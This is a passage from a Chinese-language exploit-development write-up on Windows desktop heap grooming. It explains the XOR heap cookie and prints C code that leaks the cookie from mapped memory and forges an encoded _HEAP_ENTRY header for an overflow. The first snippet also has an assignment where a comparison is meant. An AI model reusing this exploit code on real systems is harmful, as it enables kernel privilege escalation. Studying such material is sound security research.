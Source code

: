 
这样我们的堆内存布局就实施完成了。

现在还有一个很重要的问题没有解决，刚刚在堆布局的时候我没有说，就是 heap cookie 的问题，我们已经知道
_HEAP_ENTRY 结构每个字段的值表示什么，但是在内存中查看会发现和我们预期的不一样，是一个很奇怪的值，

![]({{site.baseurl}}/images/2018-11-9/heap_entry.png)

其实是 windows 实现了一个 heap cookie，每次开机都会产生一个随机数 cookie，对本来的 _HEAP_ENTRY
进行异或加密，那么我们正确的覆盖它就还需要将设置好的值和 cookie 异或过再放上去才行。
利用代码中有现成的泄露 cookie 的方法：

```c
BOOL GetDHeapCookie()
{
	MEMORY_BASIC_INFORMATION MemInfo = { 0 };
	BYTE *Addr = (BYTE *) 0x1000;
	ULONG_PTR dheap = (ULONG_PTR)pSharedInfo->aheList;

	while (VirtualQuery(Addr, &MemInfo, sizeof(MemInfo)))
	{
		if (MemInfo.Protect = PAGE_READONLY && MemInfo.Type == MEM_MAPPED && MemInfo.State == MEM_COMMIT)
		{
			if ( *(UINT *)((BYTE *)MemInfo.BaseAddress + 0x10) == 0xffeeffee )
			{
				if (*(ULONG_PTR *)((BYTE *)MemInfo.BaseAddress + 0x28) == (ULONG_PTR)((BYTE *)MemInfo.BaseAddress + deltaDHeap))
				{
					xorKey.append( (CHAR*)((BYTE *)MemInfo.BaseAddress + 0x80), 16 );
					return TRUE;
				}
			}
		}
		Addr += MemInfo.RegionSize;
	}

	return FALSE;
}
```

我们直接拿来用就好了，原理也是从桌面堆映射到用户空间的内存里取出 cookie 的值，然后构造好 size、prevsize、
small tagIndex 之后整串字符和 cookie 值异或完就可以放上去了。

```c
memset(o2str, '\x41', OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
*(DWORD *)o2str = 0x00000000;
*(DWORD *)(o2str + 4) = 0x00000000;
*(DWORD *)(o2str + 8) = 0x00010000 + OVERLAY2_SIZE;
*(DWORD *)(o2str + 12) = 0x10000000 + ((OVERLAY1_SIZE + TAGWND_SIZE + _HEAP_BLOCK_SIZE) / 0x10);

string clearh, newh;
o2str[11] = o2str[8] ^ o2str[9] ^ o2str[10];
clearh.append(o2str, 16);
newh = XOR(clearh, xorKey);
memcpy(o2str, newh.c_str(), 16);
RtlInitLargeUnicodeString(&o2lstr, (WCHAR*)o2str, (UINT)-1, OVERLAY2_SIZE - _HEAP_BLOCK_SIZE);
```
